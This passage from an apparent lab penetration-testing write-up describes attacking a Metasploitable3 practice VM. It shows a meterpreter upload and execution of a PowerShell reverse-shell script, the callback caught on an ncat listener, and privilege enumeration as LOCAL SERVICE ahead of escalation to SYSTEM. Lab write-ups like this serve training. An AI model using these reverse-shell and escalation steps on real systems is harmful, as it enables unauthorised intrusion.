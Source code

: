 ```none
meterpreter > upload /home/kali/dc902/metasploitable3/practice/windows/privesc/Invoke-PowerShellTcp.ps1
[*] uploading  : /home/kali/dc902/metasploitable3/practice/windows/privesc/Invoke-PowerShellTcp.ps1 -> Invoke-PowerShellTcp.ps1
[*] Uploaded -1.00 B of 4.30 KiB (-0.02%): /home/kali/dc902/metasploitable3/practice/windows/privesc/Invoke-PowerShellTcp.ps1 -> Invoke-PowerShellTcp.ps1
[*] uploaded   : /home/kali/dc902/metasploitable3/practice/windows/privesc/Invoke-PowerShellTcp.ps1 -> Invoke-PowerShellTcp.ps1
```

I then executed the script by passing the script as an argument to the powershell command:

```none
meterpreter > execute -f "powershell .\Invoke-PowerShellTcp.ps1"
Process  created.
```

Which connected back to my netcat listener:

```none
$ ncat -nvlp 2001
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::2001
Ncat: Listening on 0.0.0.0:2001
Ncat: Connection from 172.28.128.4.
Ncat: Connection from 172.28.128.4:49329.
Windows PowerShell running as user LOCAL SERVICE on METASPLOITABLE3
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Program Files\jmx>whoami
nt authority\local service
```

At this point, I was running as the `LOCAL SERVICE` user which can normally be abused to escalate privileges to `SYSTEM`.

```none
PS C:\Windows\Temp\r0kit> whoami /all

USER INFORMATION
----------------

User Name                  SID
========================== ========
nt authority\local service S-1-5-19


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes
====================================== ================ ============ ==================================================
Mandatory Label\System Mandatory Level Label            S-1-16-16384
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                   Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
```